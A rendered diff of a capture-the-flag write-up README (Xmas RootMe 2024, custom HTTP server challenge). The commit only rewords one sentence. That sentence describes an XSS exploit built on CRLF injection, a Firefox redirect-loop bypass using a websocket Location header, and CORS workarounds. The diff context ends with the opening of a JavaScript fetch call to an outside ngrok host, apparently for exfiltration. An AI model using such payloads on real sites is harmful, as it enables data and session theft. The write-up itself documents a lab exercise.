

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/CutsomHttpServer/README.md, the part around the change. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

`````diff
--- a/Xmas_RootMe_2024/CutsomHttpServer/README.md
+++ b/Xmas_RootMe_2024/CutsomHttpServer/README.md
@@ -59,7 +59,7 @@ Actually, \r\n chars triggered a 302 page meaning that page had been found on th
 
 <p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>
 
-<p align="justify"> Nonetheless when I tested the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server and to get around CORS restrictions: </p>
+<p align="justify"> Nonetheless when I tested the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters to fetch my external server and to get around CORS restrictions: </p>
 
 ````javascript
 fetch('http://7.tcp.eu.ngrok.io:18440/',
`````
